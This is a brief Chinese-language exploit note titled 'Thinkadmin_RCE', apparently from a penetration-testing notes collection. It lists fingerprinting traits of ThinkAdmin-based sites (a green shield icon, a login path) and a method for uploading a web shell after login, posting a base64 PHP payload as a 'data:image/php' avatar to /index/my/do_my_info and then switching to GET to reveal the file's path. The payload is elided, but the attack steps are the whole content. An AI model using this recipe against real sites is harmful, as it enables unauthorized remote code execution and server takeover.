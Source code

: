 # Thinkadmin_RCE

---

特征：

```
图标是小绿盾，中间一个勾
登陆页路径：/index/user/login.html
```



前台上传getshell

```
登陆后
/index/my/do_my_info
post:（上传）
headpic=data:image/php;base64,xxxxxx
将post改成get可以查看上传路径
```

